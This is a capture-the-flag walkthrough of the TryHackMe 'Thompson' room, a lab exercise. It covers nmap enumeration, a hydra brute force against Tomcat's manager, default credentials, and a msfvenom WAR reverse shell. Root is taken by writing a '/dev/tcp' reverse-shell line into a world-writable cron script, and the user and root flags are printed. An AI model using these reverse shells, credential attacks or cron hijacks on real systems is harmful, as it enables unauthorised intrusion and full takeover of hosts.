

https://tryhackme.com/room/bsidesgtthompson

# Enum

```bash
root@ip-10-10-247-45:~# nmap -sV -sC -Pn  10.10.123.79 -oA thompson

Starting Nmap 7.60 ( https://nmap.org ) at 2023-01-02 05:41 GMT
Nmap scan report for ip-10-10-123-79.eu-west-1.compute.internal (10.10.123.79)
Host is up (0.00095s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (EdDSA)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
MAC Address: 02:7C:BE:4F:82:63 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

# Search Exploit

- `Nuclei` will find `CVE-2020-1938`
- Searchsploit
```bash
root@ip-10-10-247-45:~# searchsploit tomcat 8.5
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP  | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP  | windows/webapps/42953.txt
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(root㉿kali)-[~/tools/frp_0.46.0_linux_amd64]
└─# searchsploit tomcat ajp
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                                                                           | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                                                                                             | multiple/webapps/49039.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

# Login

Ran hydra to bruteforce `/manager` but failed

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.10.170.186 -s 8080 http-get /manager/html -I -vV
```

- Found default creds is `401` page - `tomcat`:`s3cret`
```html
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```

# Upload Reverse Shell

There's an option to deploy war file in `manager` page


## Refers 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#war

## Generate War revshell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war
```

# User Flag

## Metasploit Listener

```powershell
msfconsole
search java reverse type:payload
use java/jsp_shell_reverse_tcp
set lhost=tun0
msf6 payload(java/jsp_shell_reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
```

Trigger Rev Shell
```bash
curl http://tomcat.thm:8080/reverse/
```

Upgrade Shell to meterpreter
```bash
sessions -u 1
sessions 2
```

Get pty Shell
```bash
meterpreter > execute -if bash
Process 1874 created.
Channel 7 created.

python3 -c "import pty;pty.spawn('/bin/bash')"
tomcat@ubuntu:/home/jack$ 
```

FLAG
```bash
tomcat@ubuntu:/home/jack$ cat user.txt
39400c90bc683a41a8935e4719f181bf
```

# Root

`id.sh` is writeable
```bash
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
-rwxrwxrwx 1 jack jack   19 Jan  2 02:15 id.sh
-rw-r--r-- 1 root root   39 Jan  2 02:02 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
```

Check crontab
```bash
cat /etc/crontab
*  *    * * *   root    cd /home/jack && bash id.sh
```

Write Revshell
```bash
echo "bash -i >& /dev/tcp/10.11.19.145/1111 0>&1" > id.sh
```

Wait for cronjob to exec the shell script as root
```bash
┌──(root㉿kali)-[/home/kali]
└─# rlwrap nc -lvnp 1111
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.170.186.
Ncat: Connection from 10.10.170.186:58960.
bash: cannot set terminal process group (14018): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# cat /root/root.txt
cat /root/root.txt
d89d5391984c0450a95497153ae7ca3a
root@ubuntu:/home/jack# 
```

